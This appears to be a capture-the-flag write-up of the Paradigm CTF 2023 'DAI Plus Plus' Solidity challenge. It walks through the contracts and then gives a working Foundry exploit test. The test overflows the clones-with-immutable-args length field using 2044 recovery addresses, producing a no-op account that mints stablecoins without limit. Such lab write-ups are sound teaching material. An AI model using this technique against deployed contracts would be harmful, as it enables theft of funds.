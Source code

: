 ```yaml
---
title: Paradigm 2023 DAI Plus Plus
date: 2024-09-14 13:08:14
tags:
---
```


### Introduction

As part of the `Web3 CTF Intensive Co-learning` with DeFiHackLabs, I solved multiple CTF challenges, including those from Paradigm CTF, BlazCTF, and more. In this post, I’ll share my experience solving the DAI Plus Plus challenge, which was interesting and I learned a lot.

Paradigm CTF 2023 DAI Plus Plus Challenge Link: https://github.com/paradigmxyz/paradigm-ctf-2023/tree/main/dai-plus-plus

### Challenge Overview

In the `Challenge.sol` function, a `SystemConfiguration` variable is created, and our goal is to mint more than `1,000,000,000,000 ether` of stable coins.

There are four contracts in this challenge: `SystemConfiguration`, `Stablecoin`, `AccountManager`, and `Account`.

Let’s first take a look at the `SystemConfiguration` file, which contains all the administrative operations, managing the `accountImplementation`, `ethUsdPriceFeed`, `accountManager`, `stablecoin`, `collateralRatio`, and `_systemContracts`. The owner, configured during the construction phase, can update these variables, while ordinary users can only view them through the getter functions.

In the `Stablecoin.sol` file, the `Stablecoin` contract is an ERC-20 token that includes `mint` and `burn` operations. These operations can only be performed if the `SystemConfiguration` account specified in the contract authorizes the operation for the `msg.sender`.

In the `AccountManager` contract, all account activities are managed, and users can create an account instance through `AccountManager::openAccount`. The contract uses the `clones-with-immutable-args` library for account creation, implementing the `EIP-1167` minimal proxy pattern. Additionally, users can mint and burn stablecoins or migrate their accounts.

Finally, there is the `Account` contract. For every operation in `AccountManager`, an `Account` instance will be passed as a parameter. Users can call `Account::increaseDebt` and `Account::decreaseDebt` within the `Account` contract; however, the `increaseDebt` operation will verify whether it affects the health factor, which is checked in `Account::isHealthy`. Users can also call `Account::recoverAccount` for account migration.

Alright, do you notice anything unusal in the contract?

### Vulnerability Analysis

**Health Factor**

As a first step, I examined the `Account::isHealthy` function to ensure there are no issues with the health factor calculation, which could otherwise allow the attacker to mint an unexpected amount of tokens.

The `Account::isHealthy` function takes two arguments: `collateralDecrease` and `debtIncrease`. I notice that only one value will be non-zero at a time, so we can simplify the problem into two cases.

In the first scenario, when `collateralDecrease` is a non-zero value, it means that we want to decrease our collateral by withdrawing some of the deposited ether. The `totalBalance` will be calculated as `address(this).balance - collateralDecrease`, while the `totalDebt` remains unchanged. The function then fetches the price through the Chainlink oracle.

I reviewed the Chainlink oracle integration to check for potential issues, such as stale prices or using `latestAnswer()` instead of `latestRoundData()`, which does not verify the last updated time. However, the integration seems to be implemented correctly.

You can check the details here: 

(1) Chainlink Oracle Security Considerations: https://medium.com/cyfrin/chainlink-oracle-defi-attacks-93b6cb6541bf#99af
(2) How Chainlink Price Feeds Work: https://www.rareskills.io/post/chainlink-price-feed-contract

Now, let’s move on to the return statement. This part seems interesting:

```C
totalBalance * ethPrice / 1e8 >= totalDebt * configuration.getCollateralRatio() / 10000
```

(Oops, the code block does not support Solidity syntax)

Wow, this might look a bit complex at the first sight. What do `1e8` and `10000` represent?

On the left-hand side, the collateral value in USD is calculated. The value is divided by `1e8` because the price feed from the Chainlink oracle has 8 decimal places.

On the right-hand side, we calculate the maximum amount we can borrow based on the current debt. The division by `10,000` is used because the `getCollateralRatio` is `15,000`, meaning `15000 / 10000 = 1.5`. This implies that for every 15 collateral tokens deposited, you can borrow up to 10 tokens. Here, we multiply first and then perform the division to prevent precision loss. It looks like that exchange rate manipulation is not possible here.

That's great. What about the second scenario? When the `debtIncrease` is a non-zero value and `collateralDecrease` is zero, it means we want to deposit collateral and receive stablecoins in return. This process follows the same steps as described earlier.

There are several operations that check the heath factor through `Account::isHealthy`, including `Account::increaseDebt`, `Account::decreaseDebt`, and more. Hmm, after going through the walkthrough, it seems that we cannot use this to exploit the challenge.

With the health factor checks out of the way, let's move on to `Access Control` and `Account Recovery` mechanisms.

**Access Control**

Are there any issues here? I checked the account validation in `onlyValidAccount` modifier, but everything seems fine.

**Account Recovery**

In the `Account::recoverAccount` function, we collect signatures from the recovery accounts and ensure that the signers, as recovered by the `ECDSA` algorithm, match the recovery addresses. I initially thought there might be issues with `ecrecover`, such as the precompile returning a zero address on failure, but everything looks good. 

LGTM!

Therefore, `Account::recoverAccount` and `AccountManager::migrateAccount` seem to be safe.

**Account Creation**
Finally, I reviewed the `AccountManager::openAccount` function, which uses the `clones-with-immutable-args` library to create new accounts. I started by examining the library and noticed a comment in the `clone()` function.

```C
    /// @notice Creates a clone proxy of the implementation contract, with immutable args
    /// @dev data cannot exceed 65535 bytes, since 2 bytes are used to store the data length
    /// @param implementation The implementation contract to clone
    /// @param data Encoded immutable args
    /// @param value The amount of wei to transfer to the created clone
    /// @return instance The address of the created clone
    function clone(
        address implementation,
        bytes memory data,
        uint256 value
    ) internal returns (address payable instance) {
        bytes memory creationcode = getCreationBytecode(implementation, data);
        // solhint-disable-next-line no-inline-assembly
        assembly {
            instance := create(
                value,
                add(creationcode, 0x20),
                mload(creationcode)
            )
        }
        if (instance == address(0)) {
            revert CreateFail();
        }
    }
```

There is a restriction on the data length: if it exceeds `65,535` bytes, it will overwrite the bytes that record the data length. To understand the impact of this scenario, I wrote a simple test.

```C
address[] memory recoveryAddrs = new address[](2044);
Acct account = manager.openAccount(
    address(this),
    recoveryAddresses
);
// Account Address
console.log(address(account));
// Byte Code Deployed Under Account
console.logBytes(address(account).code);
```

When the length of the recovery address array exceeds `2044`, the total data length surpasses the boundary. To observe the effects, we can check the bytecode deployed at the account address. The results are as follows:

```C
[PASS] testDAIPlusPlus() (gas: 944197)
Logs:
  0x231736AeF8Cd8eC2f21Ad7d9F7747965980d9e3e
  0x363d
```

The deployed code is `0x363d`, which indicates that it will not revert since there is no `REVERT` opcode included. This allows us to use this account to mint stablecoins through `AccountManager::mintStablecoins`, bypassing the `Account::increaseDebt` function, as the opcode does not execute any operation.

The full script is shown below:

```C
function testDAIPlusPlus() public {
    address[] memory recoveryAddresses = new address[](2044);
    Acct account = manager.openAccount(
        address(this),
        recoveryAddresses
    );
    // Account Address
    console.log(address(account));
    // Byte Code Deployed Under Account
    console.logBytes(address(account).code);
    manager.mintStablecoins(account, 1_000_000_000_000 ether + 1 wei, "");
}
```

Run the test, and you'll see that we can increase the token balance to over `1,000,000,000,000 ether`, successfully passing this challenge.

### Closing

This vulnerability lies in the `clones-with-immutable-args` library. Perhaps I can dive deeper into this pattern in my next blog post.

### Reference

[1] Fuzzland Writeup: https://github.com/fuzzland/writeup/blob/master/paradigm.md#dai